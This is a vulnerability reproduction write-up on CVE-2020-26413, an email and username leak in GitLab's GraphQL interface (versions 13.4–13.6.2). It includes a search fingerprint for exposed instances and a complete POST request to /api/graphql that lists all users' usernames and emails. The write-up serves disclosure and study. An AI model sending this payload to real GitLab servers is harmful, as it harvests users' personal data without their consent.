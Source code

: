 # GitLab Graphql email information leakage vulnerability CVE-2020-26413

## Vulnerability Description

There is a Graphql interface in GitLab. When entering constructed data, the user's mailbox and username will be leaked.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">GitLab 13.4 - 13.6.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="GitLab"</span>

## Vulnerability reappears

The source of the vulnerability is a public report on hackone

<a-alert type="success" message="https://gitlab.com/gitlab-org/gitlab/-/issues/244275" description="" showIcon>
</a-alert>
<br/>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/gitlab-1.png)



Meaning that when using constructed statements, the mailbox information will be returned when querying the interface, as shown in the figure


</a-alert>
<br/>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/gitlab-2.png)



Gitlab itself does not allow access to account email information. Here, the email leak vulnerability is caused by calling Graphql username query.

After viewing the report, I found that the exploit requires an account username. I cannot get the email without knowing it. Check it in [Graphql official website] (https://graphql.cn/) and you can return all usernames and emails at one time through another constructed statement.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/gitlab-3.png)



The packet sends data by calling the `/api/graphql` interface

The complete data packet is

```json
POST /api/graphql HTTP/1.1
Host:
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/gitlab-4.png)



Successfully returned data, causing Gitlab user email information to leak
